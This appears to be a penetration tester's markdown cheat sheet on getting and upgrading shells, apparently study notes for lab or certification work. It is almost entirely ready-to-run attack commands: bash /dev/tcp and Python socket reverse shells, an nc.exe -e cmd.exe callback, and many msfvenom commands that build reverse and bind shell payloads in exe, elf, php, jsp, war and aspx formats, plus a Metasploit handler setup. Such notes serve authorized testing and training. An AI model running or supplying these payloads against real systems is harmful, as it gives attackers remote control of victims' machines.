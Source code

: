 # Shells

## Reverse shells
**Links**

- https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/
  https://github.com/Tib3rius/rsg/blob/master/shells.txt
  http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
  https://github.com/swisskyrepo/PayloadsAllTheThings
  https://cyb3rdan.com/2019/07/01/oscp/
  https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

## Shells
`/bin/bash -i >& /dev/tcp/10.10.14.20/4444 0>&1`
`bash -i >& /dev/tcp/192.168.32.31/4444 0>&1`
`bash -c 'bash -i >& /dev/tcp/10.10.14.20/4444 0>&1'`
`bash -c help`' for more information about shell builtin commands.
`/bin/sh -i`
`/bin/bash -i`
`echo os.system('/bin/bash')`

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.0.126",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

`-c` cmd : program passed in as string (terminates option list)

## Getting a shell in limited interpreters:
system("start cmd.exe /k $cmd")
Second shell
After getting a shell, get a second shell with "start" in case the first one bugs up/hangs/crashes (assuming running SMB server): 
victim > start \\10.10.12.84\share\nc.exe -nv -e cmd.exe 10.10.12.84 80



<img src="full shell.png" style="zoom:48%;" />



## Upgrade to full Shell

``` python
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
$ stty raw -echo
$ fg and then enter, wait a sec, then reset enter
export TERM=linux
```


## Msfvenom

https://www.offensive-security.com/metasploit-unleashed/Msfvenom/
https://netsec.ws/?p=331

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.56 LPORT=8888 -f raw > shell.jsp
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.11.0.126 LPORT=53 -f elf -o shell.elf
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.126 LPORT=4444 -f exe -o shell_reverse.exe
msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f python

msfvenom -p php/reverse_php LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
msfvenom -p php/meterpreter/reverse_tcp LHOST=<attacker_ip> -o meterpreter.php
msfvenom -p generic/shell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f php -o shell.php
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attackerIP LPORT=attackerPort -f aspx > shell.aspx
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attackerIP LPORT=attackerPort -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.126 LPORT=4444 -f war > shell.war
```

`-p` = payload/
`-f` = output format/
`-o` = out/
`-a` = architecture/
`-e` = encoder/
`-i` = iterations of encoder/
`-b` = bad characters to avoid \x00\xff/
`--platform` = platform for the payload/



## Multi/Handler

```shell
set payload ...
set LPORT
set LHOST
exploit
```

**Create small shellcode**
`msfvenom -p windows/shell_reverse_tcp -a x86 -f python –platform windows LHOST=<ip> LPORT=443 -b “\x00” EXITFUNC=thread –smallest -e x86/fnstenv_mov`